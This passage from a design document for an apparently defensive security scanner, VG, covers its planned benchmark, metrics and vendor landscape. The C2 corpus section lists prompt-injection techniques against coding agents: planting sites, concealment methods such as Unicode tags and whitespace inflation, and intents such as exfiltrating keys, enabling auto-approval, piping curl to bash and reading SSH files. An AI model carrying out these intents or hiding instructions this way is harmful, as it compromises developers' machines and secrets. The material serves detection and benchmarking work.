| Repo-scale PoC reproduction (stretch) | [CyberGym](https://www.cybergym.io/) — 1,507 instances / 188 projects, Apache-2.0 | ~10 TB server data | V3 only; infrastructure cost is the blocker |
| VG's own injection resistance | [AgentDojo](https://arxiv.org/abs/2406.13352) (97 tasks / 629 security cases), [InjecAgent](https://arxiv.org/abs/2403.02691) (1,054 cases), [ASB](https://github.com/agiresearch/asb) (MIT, 10 scenarios × 13 backbones × 5 attack types × 6 defenses), [MCPSecBench](https://arxiv.org/abs/2508.13220) (17 attack types / 4 surfaces) | AgentDojo license **n.a.** | Mandatory per-release gate. Context for expectations: MCPSecBench reports existing MCP protections succeeding at "less than 30%" on average |
| Generation-side context | [BaxBench](https://baxbench.com/) (392 tasks = 28 scenarios × 14 frameworks × 6 languages), [CyberSecEval 1–4](https://meta-llama.github.io/PurpleLlama/CyberSecEval/docs/intro) | BaxBench code license **n.a.** | Not a VG metric; cited as the reason VG exists — "62% of the solutions generated even by the best model are either incorrect or contain a security vulnerability" |
| The reference bar for detect+patch systems | [DARPA AIxCC](https://www.darpa.mil/news/2025/aixcc-results) — 63 challenges, 54 unique synthetic vulns found / 43 patched, 18 real vulns found / 11 patched, >54M LOC | finalists open-sourced under OSI licenses | Calibration of ambition: discovery outpaces reliable patching, matching AutoPatchBench |
| MCP/agent attack fixtures | [damn-vulnerable-MCP-server](https://github.com/harishsg993010/damn-vulnerable-MCP-server) (10 challenges), [mcp-injection-experiments](https://github.com/invariantlabs-ai/mcp-injection-experiments) (tool-poisoning PoCs) | **both unlicensed** | Run against as external targets; **never vendored** |
| Fix-pair training/eval data | [CVEfixes](https://github.com/secureIT-project/CVEfixes) — MIT code / CC-BY-4.0 data, CVEs to 2024-07-23, [Zenodo DOI](https://doi.org/10.5281/zenodo.4476563) | dormant since 2024-07-29 | Re-run collection ourselves for 2024–2026 CVEs; attribution required |

Explicitly skipped: NodeGoat (stale since 2019), Acceis vulnerable-code-snippets (7 entries), DefectDojo (a management platform, and a possible *integration* target rather than a benchmark), and any "SWE-bench security subset" — no such official split is documented ([SWE-bench](https://www.swebench.com/)). SWE-bench is used only as a **harness pattern**.

### 18.2 VGBench: VG's own benchmark

Existing benchmarks do not cover the three things VG claims: AI-generated-app defect classes, repo-level agent-hijack detection, and verification-gated fixes with published abstention. VGBench has four corpora.

**C1 — AI-generated vulnerable apps (the VIBE corpus).**
Construction: N generation tasks (target 300 at V2) × M frontier and open models × K prompting styles (naive "build me X", security-unaware, and security-prompted), producing whole small applications rather than snippets, across FastAPI/Python, Express+TS, Next.js, and Django. Each generated app is (a) functionally tested, (b) exploit-tested by a human-written exploit per intended defect class, and (c) labelled by class using the VIBE taxonomy mapped to CWE. Only apps with a **reproducible exploit** enter the corpus; unexploitable suspicions are discarded rather than labelled. Rationale for whole-app generation over snippets: the measured defect rates that matter come from full-solution studies — BaxBench's 62% incorrect-or-vulnerable and the formal-verification result of a 55.8% default vulnerability rate with static tools catching 2.2% and CodeQL security-extended 0% ([Broken by Default](https://vibe-eval.com/updates/broken-by-default-formal-verification/)). Prior art we align to so results are comparable: muence-ai/vibesec's exploit-prints-`PWNED` + spec-test + reference-patch structure.
Bias controls: exploits written by a person who did not write the generation prompt; a held-out split never used for rule development; per-model and per-prompt-style stratification published so no one can cherry-pick a model.

**C2 — Injected-repo corpus (agent-hijack detection).**
Base: 200 benign real repositories (permissively licensed, snapshot-pinned). Into copies of these we inject payloads along three orthogonal axes, producing a matrix rather than a list:
- **Location** (from §17.1's T2 list): `README.md`, a doc two links deep, `AGENTS.md`, `CLAUDE.md`, `.claude/settings.json`, `.cursorrules`, `.cursor/rules/*.mdc`, `.cursor/mcp.json`, `.clinerules`, `.windsurfrules`, `.github/copilot-instructions.md`, `.vscode/settings.json`, `SKILL.md` name/description, issue body HTML comment, PR description, PR title, commit message, code comment, docstring, **filename**, `package.json` postinstall, Dockerfile, workflow file.
- **Concealment**: plaintext; Unicode Tags `U+E0000`–`U+E007F`; zero-width/variation selectors; bidi `U+202E`; homoglyphs; HTML comment; `data-*` attribute; `<textarea>`; SVG CDATA; CSS-hidden (font-size 0, off-screen, matching colours); KaTeX white text; Base64/Base16/base85+XOR/HTML-entity/URL-encoded/multi-pass-nested; split across sibling elements; **~100,000-newline whitespace inflation**; `.pyc` bytecode; DOCX-as-ZIP; ANSI escapes.
- **Intent**: exfiltrate env/keys; enable auto-approval (`"chat.tools.autoApprove": true`); write `.cursor/mcp.json`; insert a backdoor in the next edit; `curl … | bash`; read `~/.ssh/*`; redirect `ANTHROPIC_BASE_URL`; destructive command; typosquat dependency injection.
Every axis value above is drawn from a documented real technique (§Sources: Unit 42, CSA ×2, Embrace The Red, Legit Security, Orca, Pillar, Check Point, Nx).
**Plus a hard negatives set** — this is what makes the corpus honest: repos containing legitimate invisible codepoints (emoji, zero-width-char test fixtures), security documentation that *quotes* injection payloads (every security tool's own test suite looks malicious), legitimate `curl | bash` in an install doc, and legitimate `postinstall` scripts. Guidance is explicit that real scans surface invisible codepoints that are "nothing that screams malicious" ([Embrace The Red](https://embracethered.com/blog/posts/2026/scary-agent-skills/)), so precision on hard negatives is a headline metric, not an afterthought.

**C3 — Fix corpus.** AutoPatchBench-Lite + SEC-bench + muence-ai/vibesec + a VG-built set of 200 exploit-verified fix tasks derived from C1 (exploit, spec test, reference patch), plus a re-run of CVEfixes collection for 2024–2026.

**C4 — Self-robustness corpus.** AgentDojo + InjecAgent + ASB + MCPSecBench, plus a VG adversarial set targeting our own S6 envelope specifically: injection payloads written to attack a *scanner* rather than a coding agent — including the compliance-policy-impersonation technique that downgraded risk in LLM-based scanners ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-agent-skill-scanner-bypass-20260610-csa/)).

### 18.3 Metrics

Reported per release, per language, per model profile (frontier / mid / local), with confidence intervals and n:

| Metric | Definition | Notes |
|---|---|---|
| Precision / recall / F1 **per finding class** | at **function/method granularity**, not file | File-level matching inflates apparent detection by 3–6× ([Li et al.](https://sen-chen.github.io/img_cs/pdf/fse2023-sast.pdf)); the file-vs-function gap was 89% vs 52% in one study ([Charoenwet et al.](https://arxiv.org/html/2407.12241v1)). Esposito, Falaschi & Falessi (arXiv:2403.09219, 2024, ~1.5M test executions with method-level effort-aware metrics) is the reference for why file-level metrics mislead |
| **Verified-fix rate** | verified fixes / attempted fixes, where verified = all four gates pass | The number no vendor publishes. Comparable baselines: 26.0% independent clean-fix, 5–11% AutoPatchBench-Lite post-verification, 15% Google-reported |
| **Attempt rate & abstention rate** | attempted / eligible; abstained / eligible, broken down by reason | Published because a high verified-fix rate achieved by only attempting easy findings is a lie by omission. Both numbers must be read together |
| Regression rate | merged fixes later reverted or re-flagged | — |
| Hard-negative false-positive rate (C2) | FPs on the legitimate-content set | The metric that separates a scanner from a noise generator |
| Injection-resistance **ASR** | attack success rate on C4, adaptive and non-adaptive reported separately | Non-adaptive-only numbers are near-meaningless: every evaluated defense in the literature was bypassed under adaptive optimisation ([survey](https://arxiv.org/html/2601.17548v1)) |
| Time per KLOC | wall-clock and CPU-seconds, per stage, per profile | Measured via OTel spans. Almost no tool in the market publishes this |
| Cost per KLOC | tokens and USD, per profile | Including a `local-only` row with zero marginal cost and a published quality delta |
| Calibration | reliability curve: stated confidence vs measured correctness | No competitor publishes one (§20) |
| Grounding failure rate | AI findings whose snippet hash did not match | Must be 0 in releases |
| Coverage honesty | classes VG **cannot** detect, enumerated | Published as a first-class table |

### 18.4 Scoring methodology

1. **Verification is the oracle; no LLM judges.** Adopted directly from muence-ai/vibesec's rule. LLM-as-judge is used only for prose quality, never for correctness, because LLM judges are exactly what an attacker prompt-injects.
2. **Split discipline.** Public dev split for rule development; sealed held-out split for scoring, rotated per release; a permanently sealed set for third-party audit.
3. **Pre-registered protocol.** Metrics, prompts, model versions and matching strictness are declared before the run and published with results, because matching strictness is where benchmark numbers are quietly inflated — Li et al. report four strictness levels (S_F-A / S_F-C / S_M-A / S_M-C) plus manual verification, and per-tool counts collapse from e.g. Semgrep 60 → 9 across them.
4. **Non-determinism handled explicitly.** LLM-dependent metrics are run n≥3 and reported as mean ± range; single-run results are not reportable ([NCC Group](https://www.nccgroup.com/research/non-deterministic-nature-of-prompt-injection/)).
5. **Baselines run by us, on our hardware, on the same corpus.** Opengrep-alone, Trivy-alone, and (where license permits, i.e. OSS-only targets) CodeQL, so readers can see VG's marginal contribution rather than an absolute number.
6. **Costs reported alongside quality.** A configuration that wins on recall and costs 10× is reported as such.

### 18.5 Release policy

- Corpora C1–C3 published under a permissive license with generation scripts and prompts; C2 payloads published in a **defanged** form (documented technique, inert payload) to avoid shipping a weaponised kit while remaining reproducible.
- A machine-readable `RESULTS.json` per release plus a human report; the harness itself open-source, in the spirit of FLAWED and AutoPatchBench both being open ([Off-by-1 Labs](https://singularity.kiwi/ai-patching-26-percent-success-rate-flawed-research-2026/), [Meta](https://engineering.fb.com/2025/04/29/ai-research/autopatchbench-benchmark-ai-powered-security-fixes/)).
- **No cherry-picking clause:** every metric in §18.3 is published every release, including regressions, or none are. If a number gets worse, it ships with the release notes.
- Third-party replication invited, with a sealed split and a documented submission path; independent replication is the only thing that distinguishes our numbers from the vendor claims we criticise.
- Anti-benchmark-gaming: no VG rule may be developed against the sealed split; corpus rotation each release; publication of the rule-corpus digest used for each result.

---

## 19. Competitive Analysis

Labels: **(V)** = vendor-published claim, **(I)** = independent/peer-reviewed, **(A)** = third-party aggregator (lower confidence). All funding figures are the latest event visible in the fetched sources and should be treated as floors.

### 19.1 The platform vendors (the real threat)

| Player | Product | Claim | Label | Availability | Why it threatens VG |
|---|---|---|---|---|---|
| **OpenAI** | Aardvark → rebranded **Codex Security**, research preview 6 Mar 2026 | 92% of known and synthetically introduced vulnerabilities found in "golden" repos; ~1.2% of commits introduce bugs; 10 CVEs from OSS findings | **(V)** | Codex web to ChatGPT Enterprise/Business/Edu with a free month; pro-bono OSS scanning planned ([OpenAI](https://openai.com/index/introducing-aardvark/)). Ships a public CLI/SDK `@openai/codex-security`, resumable bulk scans, FP feedback, pre-commit checks, and **CI runs with SARIF upload and severity policy** ([Codex Security](https://developers.openai.com/codex/security)) | It already has VG's MVP feature list, plus distribution inside a subscription |
| **Google** | **CodeMender** (Gemini Deep Think), Oct 2025; managed preview via Gemini Enterprise / AI Threat Defense 21 Jul 2026 | 72 security fixes upstreamed to OSS in six months, projects up to 4.5M LOC, **all human-reviewed** | **(V)** | C/C++/Go/Java/Python/Ruby/Rust/TypeScript; PoC exploits built in a **customer-managed sandbox**; **runs in local dev environments via a lightweight CLI** ([Google Cloud](https://cloud.google.com/blog/products/identity-security/find-and-fix-software-vulnerabilities-with-codemender)) | The only competitor already doing sandboxed PoC construction — closest to VG's verification thesis. Note the honest framing: 72 fixes in six months is a *low* absolute number, which corroborates the difficulty |
| **Anthropic** | **Claude Code Security** (limited research preview, 20 Feb 2026) + free security-guidance plugin (27 May 2026) | 500+ vulnerabilities in production OSS with Claude Opus 4.6 (no methodology); plugin reported 30–40% decrease in security-related PR comments from internal benchmarks | **(V)** | Preview for Enterprise/Team, free expedited access for OSS maintainers; **plugin free on all plans**; public [claude-code-security-review](https://github.com/anthropics/claude-code-security-review) Action ([Anthropic](https://www.anthropic.com/news/claude-code-security), [Help Net Security](https://www.helpnetsecurity.com/2026/05/27/anthropic-claude-code-security-guidance-plugin/)) | Free-in-subscription commoditises "an LLM reviews the diff". **But** the same vendor's Action states it "is not hardened against prompt injection attacks and should only be used to review trusted PRs" — the opening VG targets |

### 19.2 Autofix / AI-SAST specialists

| Vendor | Autofix claim | Label | Pricing | Latest funding / M&A | Self-host | Verified-fix metric? |
|---|---|---|---|---|---|---|
| **GitHub Advanced Security** (Copilot Autofix + CodeQL) | median remediation 28 min vs 1.5 h manual (XSS 22 min vs ~3 h; SQLi 18 min vs 3.7 h); >2/3 of supported alerts remediable with little or no editing; agentic Autofix in public preview, best-effort | **(V)** | Secret Protection **$19**/active committer/mo; Code Security **$30**/active committer/mo ([plans](https://github.com/security/plans)) | Microsoft | GitHub Enterprise Server | **No** |
| **Snyk** | guided/automated fixes, dependency-upgrade PRs; **no accuracy or acceptance metrics published** ([Contrary](https://research.contrary.com/company/snyk)) | — | Free $0; Team from **$25**/mo per contributing developer; Ignite **$1,260**/dev/yr; Enterprise custom ([plans](https://snyk.io/plans/)) | $196.5M Series G at **$7.4B** (Dec 2022), down from $8.5B ([Reuters via Yahoo](https://finance.yahoo.com/news/cybersecurity-startup-snyk-valued-7-015133451.html)); **acquired Invariant Labs 24 Jun 2025** for agent/MCP guardrails ([Snyk](https://snyk.io/news/snyk-acquires-invariant-labs-to-accelerate-agentic-ai-security-innovation/)) | CLI/scanning behind firewalls; full self-host not stated | **No** |
| **Semgrep** | autofix, auto-triage, AI credits per plan; claims 96% researcher agree-rate on true positives | **(V)** | Free $0 (10 contributors/10 repos); Code **$30**/contributor/mo, Supply Chain **$30**, Secrets **$15** ([pricing](https://semgrep.dev/pricing)) | **$100M Series D, 5 Feb 2025** (Menlo) ([Series D](https://semgrep.dev/blog/2025/series-d-announcement)) | Runs fully locally/in CI; on-prem SCM at Enterprise | **No** |
| **Sonar (SonarQube)** | AI CodeFix; **Remediation Agent opens verified-fix PRs and requires the build to pass** — the closest analogue to VG's gate; claims teams 44% less likely to have AI-code-caused outages and SonarSweep cutting LLM-output vulns up to 67%, **no methodology** | **(V)** | Team from **$34**/mo up to 100k LOC (free to 50k private); Gitar Core **$20**/user/mo, Pro **$40** ([plans](https://www.sonarsource.com/plans-and-pricing/)) | $412M at **$4.7B** (Apr 2022) ([Insight](https://www.insightpartners.com/ideas/sonarsource-the-leading-platform-for-clean-code-raises-412-million-in-new-investment/)); **acquired Gitar 21 May 2026** ([PRNewswire](https://www.prnewswire.com/news-releases/sonar-acquires-gitar-expanding-code-verification-platform-to-include-ai-code-review-302778966.html)) | SonarQube Server self-managed | **No** — "build passes" ≠ exploit verified |
| **ZeroPath** | one-click patch PRs, PR scans <60s; claims **81.7% detection vs Snyk ~40%**, 75% fewer FPs, 125k+ monthly scans, 750+ companies | **(V)**, via **(A)** profile | Team/Enterprise, exact prices n.a.; free for researchers ([pricing](https://zeropath.com/pricing)) | $25.5M total; latest seed 23 Mar 2026 ([Caplight](https://www.caplight.com/company/zeropath)) | **On-prem, self-hosted, private cloud + BYOK LLM keys** | **No** |
| **Pixee / Pixeebot** | claims **76–87% automated-fix merge rate**, 91% remediation-time recapture | **(V)** | **Outcome-based** — priced from annual SAST/SCA findings ([pricing](https://www.pixee.ai/pricing)) | $15M seed, 22 May 2025 ([devcuration](https://devcuration.substack.com/p/pixee-seed-round)) | **Self-hosted and air-gapped at Enterprise; majority of customers self-host** | **No** — merge rate only |
| **Nullify** | claims **~90% merge-ready**, 450+ auto-resolved vulns | **(V)** | **US$800 per developer/year** ([pricing](https://www.nullify.ai/pricing)) | $12.5M seed, 5 Feb 2026 ($16.9M total) ([GlobeNewswire](https://www.globenewswire.com/news-release/2026/02/05/3232827/0/en/nullify-closes-seed-funding-round-with-12-5-million-investment-to-scale-growth-of-first-ever-ai-workforce-for-product-security.html)) | not stated | **No** |
| **Mobb** | IDE scan-and-fix, automatic PRs at Enterprise; **Mobb Tracy** for AI-generated code, **Vibe Shield MCP** in the IDE; no accuracy metrics | **(V)** | Free/Team/Enterprise per active GitHub committer, prices n.a. ([pricing](https://mobb.ai/pricing)) | $5.4M seed, 17 Apr 2023 ([SecurityWeek](https://www.securityweek.com/mobb-raises-5-4-million-in-seed-funding-for-automatic-vulnerability-fixing-tool/)) | **Enterprise: SaaS, private cloud, on-prem incl. on-prem code server** | **No** |
| **Corgea** | fixes as PRs, never auto-merged; 10/50/200/unlimited autofixes by plan; claims ~30% fewer FPs | **(V)** via **(A)** | Free $0; Growth **$39**/dev/mo; Scale **$49**/dev/mo ([pricing](https://corgea.com/pricing)) | $2.6M seed, 8 Nov 2024 ([FinTech Global](https://fintech.global/2024/11/08/ai-driven-cybersecurity-startup-corgea-raises-2-6m-in-seed-round/)) | n.a. | **No** |
| **Aikido** | AI AutoFix across SCA/SAST/IaC; autonomous agents pentest, validate exploitability, patch and retest; claims "almost 100%" of AI pentest findings are real and 75–92% noise reduction, **no methodology** | **(V)** | Developer **$0**; Basic **300/mo**; Pro **600/mo**; pentests €3,500/$4,000 typical ([pricing](https://www.aikido.dev/pricing)) | **$60M Series B at $1B, 14 Jan 2026** ([Sahm Capital](https://www.sahmcapital.com/news/content/brief-aikido-security-raises-60-million-series-b-at-1-billion-valuation-to-lead-software-security-2026-01-14)) | On-prem scanning at Pro; local deployment + broker at Enterprise | **No** |
| **Endor Labs** | agentic remediation, one-click diff, AURI local quick-fixes; **embeddings-based provenance tracing of AI-generated code**; AI Coding Agent Governance for agents, MCP servers and skills | **(V)** | Developer/Core/Pro, prices not published ([pricing](https://www.endorlabs.com/pricing)) | **$93M Series B, 23 Apr 2025** ([Endor](https://www.endorlabs.com/learn/why-we-raised-a-93m-series-b-in-this-market)) | **Local laptop analysis via AURI** | **No** |
| **Checkmarx** | Remediation Assist generates review-ready fixes pre-merge, human review required, no metrics; prevention-first for AI-generated code | **(V)** | not public | **Acquired Tromzo 9 Dec 2025** ([PrivSource](https://www.privsource.com/acquisitions/deal/checkmarx-acquires-tromzo-to-advance-agentic-application-security-mwSXZe)); H&F acquired Checkmarx at **$1.15B** (2020) | **Developer Assist requires cloud connectivity — does not work air-gapped** ([Pixee comparison](https://www.pixee.ai/blog/checkmarx-vs-veracode)) | **No** |
| **Veracode** | Veracode Fix; automated PRs for SCA findings added Mar 2026; publishes the GenAI code-security reports | **(V)** | application-profile licensing, no list prices ([summary](https://checkthat.ai/brands/veracode/pricing)) **(A)** | Thoma Bravo bought Veracode from Broadcom for **$950M** ([Thoma Bravo](https://www.thomabravo.com/press-releases/thoma-bravo-completes-acquisition-of-veracode-software)) | **SaaS-only, no on-prem** | **No** |
| **Qwiet AI → Harness** | AutoFix covers **top ten SAST findings per app**, disabled by default; docs warn suggestions may be syntactically wrong or change semantics; claims 97% true positives, 80% faster remediation | **(V)** | Free $0; Personal $175/mo; Enterprise from $10,000/yr **(A)** ([G2](https://www.g2.com/products/qwiet-ai/pricing)) | **Acquired by Harness, effective 26 Sep 2025** ([PRNewswire](https://www.prnewswire.com/news-releases/harness-strengthens-its-application-security-business-with-acquisition-of-qwiet-ai-302569086.html)) | n.a. | **No** |
| **CodeRabbit** | autofix listed; CLI hands fixes to an agent; **no accuracy metrics** | — | Free/OSS/Pro/Pro+/Enterprise, prices not in docs ([docs](https://docs.coderabbit.ai/management/plans)) | **$143M at $1.5B, 12 Aug 2026** ([Reuters](https://www.reuters.com/technology/ai-code-review-platform-coderabbit-valued-15-billion-latest-funding-round-2026-08-12/)) | Enterprise self-hosting | **No** |
| **DryRun Security** | **No autofix** ([FAQ](https://www.dryrun.security/faqs)); claims traditional SAST missed **>80%** of vulns in LLM-enabled apps | **(V)** | n.a. | $8.7M seed, 22 Jan 2025 ([SecurityWeek](https://www.securityweek.com/application-security-firm-dryrun-raises-8-7-million-in-seed-funding/)) | **SaaS only** | n/a |
| **Baz** (new entrant) | **fixer applies and validates safe changes in an isolated runtime**; Baz Planner rewrites plans | **(V)** | n.a. | seed extended to **$17M, 29 Jun 2026** ([SiliconANGLE](https://siliconangle.com/2026/06/29/exclusive-agentic-coding-startup-baz-brings-code-reviews-planning-stage-extends-seed-funding-17m/)) | n.a. | **No** — closest in *shape* to VG's harness |

### 19.3 Agent/MCP-security specialists (adjacent, not overlapping)

| Vendor | Coverage | AI-generated-code risk? | Funding |
|---|---|---|---|
| **Backslash** | Strongest MCP story: centralised discovery, risk assessment, hardening policies, behaviour analysis, IDE/agent hardening, permission boundaries; found hundreds of MCP servers bound to `0.0.0.0` ([press](https://www.backslash.security/press-releases/backslash-security-introduces-comprehensive-mcp-security-solution-for-vibe-coding-and-ai-native-software-development), [research](https://www.backslash.security/blog/hundreds-of-mcp-servers-vulnerable-to-abuse)) | policy conformance for AI-generated code; autofix **not stated** | **$19M Series A, 10 Feb 2026** ([press](https://www.backslash.security/press-releases/backslash-security-raises-19m-series-a-to-secure-vibe-coding-boom-in-the-enterprise-bolsters-board-with-cybersecurity-industry-leader)) |
| **Zenity** | intent-aware real-time approve/modify/block of agent actions; AgentFlayer zero-click hijack research | **explicitly does not cover AI-generated-code risk** ([Zenity](https://zenity.io/company-overview/newsroom/company-news/zenity-raises-125-million-to-secure-the-era-of-1-billion-ai-agents)) | **$125M Series C, 3 Aug 2026** ($185M total) |
| **Noma Security** | Agentic Access Control for agents and MCP servers; claims 9/9 OWASP GenAI categories | **AI-generated code not covered** ([Noma](https://noma.security/blog/noma-security-raises-100m-to-drive-adoption-of-ai-agent-security/)) | **$100M Series B, 31 Jul 2025** |
| **Pillar Security** | Discovers agents, models, MCP servers, skills, coding agents, shadow AI; red-teams agentic workflows; **Rules File Backdoor** research | **yes** — AI-generated code, AI reviews, AI IaC/tests, vibe-coded apps ([Pillar](https://www.pillar.security/)) | $9M seed, 16 Apr 2025 |
| **Straiker** | Ascend AI recon/red-teaming across MCP servers, tools, models, data connectors; 36% of successful coding-agent attacks led to RCE; 91% of successful productivity-agent attacks caused silent data exfiltration | not AI-code specific | **$64M Series A, 29 Jun 2026** ([Straiker](https://www.straiker.ai/blog/straiker-raises-64m-series-a-to-secure-the-agentic-workforce)) |
| **StepSecurity** | AI coding-agent inventory (Claude Code, Codex, Cursor, Ollama) + **MCP-server discovery showing which AI tool registered each server and which device runs it**; Harden-Runner | inventory/posture, not code analysis | $3.0M seed, May 2024 |
| **Socket.dev** | supply chain: dependency behaviour, firewall, reachability, **Certified Patches**; extending to MCP servers, AI tools, editor/browser extensions; blocks 10,000+ supply-chain attacks weekly across 27,000+ orgs and 1.5M repos **(V)** | frames AI code as the driver, no dedicated control stated | **$60M Series C at $1B, 20 May 2026** ([Cooley](https://www.cooley.com/news/coverage/2026/2026-05-20-socket-raises-$60-million-series-c-at-$1-billion-valuation)) |
| **GitGuardian** | secrets detection / NHI governance; reports AI-assisted commits leaking secrets at **3.2% vs 1.5% baseline** and 28.65M new secrets on public GitHub in 2025 **(V)** | detection post-hoc | **$50M Series C, 11 Feb 2026** ([GitGuardian](https://blog.gitguardian.com/series-c-pr/)) |
| **XBOW** | autonomous offensive testing; **no autofix** — identification and validation only | n.a. | **$120M Series C at >$1B, 18 Mar 2026** ([XBOW](https://xbow.com/news/xbow-raises-120m-to-scale)) |
| **Ghost Security** | sandboxing, credential brokering, least-privilege, observability, variable autonomy **for its own security agents**; open-source Reaper agentic AST framework | n.a. | $15M initial, 4 Aug 2022 |

### 19.4 Two structural observations

**(a) The categories are disjoint and nobody bridges them.** Agent/MCP-security vendors govern the agent *runtime* (Zenity and Noma explicitly do not cover AI-generated-code risk); AI-SAST vendors analyse the *code*. Nobody joins an agent action to a code outcome in a single audit record. That seam is VG's §17 + §15 provenance design.

**(b) Zero vendors publish an exploit-verified fix-correctness rate.** Across the entire matrix, the only "verification" claims are "build must pass" (Sonar) and "validates in an isolated runtime" (Baz), neither of which is exploit reproduction. Meanwhile independent numbers cluster at 5–26% and vendor numbers at 76–90%. This is not a small measurement disagreement; it is a category-wide credibility gap.

**(c) Open source is table stakes, not differentiation.** Semgrep CE, Sonar's free open-source MCP server, Ghost's Reaper, Cycode's Cygives (Bearer SAST, Raven, Cimon), Lasso's "first open-source security gateway for MCP" and ZeroPath's MIT MCP server all exist ([Cygives](https://cycode.com/press/cycode-completes-acquisition-of-bearer-and-announces-new-cygives-developer-initiative/), [Lasso](https://www.lasso.security/newsroom?afabb2e6_page=5), [ZeroPath RSAC](https://zeltser.com/media/rsac-2026-sandbox/zeropath)). "We're open source" wins nothing on its own.

---

## 20. Market Gap

### 20.1 The white space, gap by gap

**G1 — Verified fix correctness, published as a metric.** Independent: 26.0% clean-fix rate across 6,080 patches, and 49.3% failed to close at least one existing exploit path ([Off-by-1 Labs](https://singularity.kiwi/ai-patching-26-percent-success-rate-flawed-research-2026/)); 5–11% post-verification on AutoPatchBench-Lite with Google's own reported 15% fix rate ([Meta](https://engineering.fb.com/2025/04/29/ai-research/autopatchbench-benchmark-ai-powered-security-fixes/)); 21.7% best-of-12-LLMs on 23 Python CVEs under exploit verification ([arXiv 2606.25973](https://arxiv.org/html/2606.25973v1)). Vendors advertise 76–90% merge rates. No vendor publishes an exploit-verified number (§19). Both reference harnesses — FLAWED and AutoPatchBench — are open, so the baseline is free to reproduce.

**G2 — Detection of AI-specific defect classes that existing SAST provably misses.** Formal verification over 3,500 artifacts from 7 LLMs across 500 prompts measured a **55.8% default vulnerability rate** with 1,055 proven-exploitable, while combined static tools detected **2.2%** and CodeQL v2.25.1 security-extended detected **0%** ([Broken by Default](https://vibe-eval.com/updates/broken-by-default-formal-verification/)). Independently, DryRun claims traditional SAST missed >80% of vulns in LLM-enabled apps ([SecurityBrief](https://securitybrief.co.uk/story/dryrun-raises-usd-8-7m-to-secure-ai-driven-coding)). The misses concentrate in authz, business logic and insecure defaults — exactly what rule-and-taint engines are worst at, and exactly what Sonar, Semgrep and Checkmarx still lead with.

**G3 — Repo-level agent-hijack scanning.** 36% of 3,984 scanned agent skills contained prompt injection, with 1,467 malicious payloads and 8 confirmed malicious skills still live at publication ([Snyk ToxicSkills](https://snyk.io/blog/toxicskills-malicious-ai-agent-skills-clawhub/)); telemetry from nearly 10,000 developer environments found **392 confirmed prompt injections embedded in MCP tool descriptions** in already-active environments ([Snyk](https://snyk.io/blog/agentic-development-security-ai-coding-risk/)); Unit 42 documents **22 distinct** indirect-injection techniques observed in the wild, stating IDPI "is no longer merely theoretical but is being actively weaponized" ([Unit 42](https://unit42.paloaltonetworks.com/ai-agent-prompt-injection/)). Yet README/issue/comment injection is **covered only by research, not by any maintained scanner** — the closest artifacts are `ctxlint` (7★, correctness-oriented) and `claude-code-doctor` (1★, single commit). Existing scanners cover MCP surfaces and skill files, not repository prose.

**G4 — Air-gapped / local-first with BYO model.** Air-gap is a stated *limitation* of a market leader: Checkmarx Developer Assist "requires cloud connectivity and does not work in air-gapped environments" ([Pixee comparison](https://www.pixee.ai/blog/checkmarx-vs-veracode)), and Veracode is SaaS-only ([summary](https://checkthat.ai/brands/veracode/pricing)). Only Pixee, ZeroPath, Aikido, Mobb Enterprise and Operant offer meaningful local/air-gapped paths. With 28.65M new hardcoded secrets on public GitHub in 2025, +34% YoY ([GitGuardian](https://blog.gitguardian.com/the-state-of-secrets-sprawl-2026/)), sending an untrusted repo to a SaaS is itself part of the risk being measured.

**G5 — Provenance: which lines were AI-authored, by which agent, under which prompt/rules.** Only Endor claims embeddings-based provenance tracing; Archipelo monitors AI usage as "developer posture". Nobody ties a *finding* to the generating agent, model version, prompt and rules file — despite 6,699 repositories with AI-authored commits across 29 AI tools and 1.1M+ public repositories using AI coding tools in 2024–2025 ([arXiv 2603.28592](https://arxiv.org/html/2603.28592v2)), and despite Pillar demonstrating that a poisoned rules file silently compromises assistants.

**G6 — Hallucinated-dependency prevention at generation time.** 19.7% of generated package references hallucinated across 2.23M samples, 205,474 unique fake names, 43% reproducible across all 10 reruns; open models 21.7% vs commercial 5.2% ([USENIX 2025 via CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-slopsquatting-ai-supply-chain-20260419-csa/)). A 2026 replication over 199,845 prompts confirms persistence, with Claude Haiku 4.5 lowest at 4.62% ([arXiv 2605.17062](https://arxiv.org/abs/2605.17062)). Trend Micro found MCP-based live registry validation yields the fewest phantom dependencies but **does not eliminate** the threat ([dataset](https://github.com/trendmicro/slopsquatting)). Socket blocks at install/firewall time; a **resolver gate inside the agent loop** — refuse to write an import that does not resolve to a real, reputable, non-typosquat package — is unclaimed, and the OSS tools in this niche are 0–3-star single-author projects.

**G7 — Governance/evidence for agent-authored change (the 22% governance gap).** Only **22%** of enterprises have formal AI governance; teams where 81–100% of code is AI-generated ship vulnerable code **3.4× more often**; three-quarters knowingly deploy vulnerable code ([devclass on Checkmarx](https://www.devclass.com/security/2026/06/22/devs-know-ai-code-is-riddled-with-holes-but-ship-it-anyway/5259237), [CIO](https://www.cio.com/article/4183209/enterprises-know-ai-generated-code-is-vulnerable-theyre-shipping-it-anyway.html)). Agent-governance vendors govern the runtime; AI-SAST vendors govern the code; nobody produces one signed audit record joining agent action to code outcome.

**G8 — Calibrated honesty as a product feature.** Fix success is 65% with correct guidance vs **15.2% with incorrect guidance** ([Off-by-1 Labs](https://singularity.kiwi/ai-patching-26-percent-success-rate-flawed-research-2026/)) — so finding quality determines fix quality, which makes abstention a *capability*. No vendor in the matrix publishes an abstention policy or a confidence-calibration curve.

**Demand-side context** (why any of this matters commercially): 84% of developers use or plan to use AI tools while 46% actively distrust AI accuracy — up from 31% — and 45% say debugging AI-generated code is more time-consuming, across 49,000+ respondents in 177 countries ([Stack Overflow 2025](https://stackoverflow.co/company/press/archive/stack-overflow-2025-developer-survey/)); 25% of YC W25 had codebases ≥95% AI-generated ([CSA](https://labs.cloudsecurityalliance.org/research/csa-research-note-ai-generated-code-vulnerability-surge-2026/)); Gartner forecasts vibe coding driving **40% of new enterprise production software by 2028** ([as reported](https://www.techshotsapp.com/technology/gartner-predicts-vibe-coding-will-power-40-of-enterprise-software-by-2028)); AI-assisted developers produced 3–4× more commits and **10× more security findings**, from ~1,000/mo to 10,000+/mo between Dec 2024 and Jun 2025 ([Apiiro](https://apiiro.com/blog/4x-velocity-10x-vulnerabilities-ai-coding-assistants-are-shipping-more-risks/)); 2,000+ high-impact vulnerabilities were found across 5,600 publicly reachable vibe-coded applications, 175 exposing personal data ([Escape](https://escape.tech/blog/escape-raises-18m-series-a/)).

### 20.2 Why this might fail (unhedged)

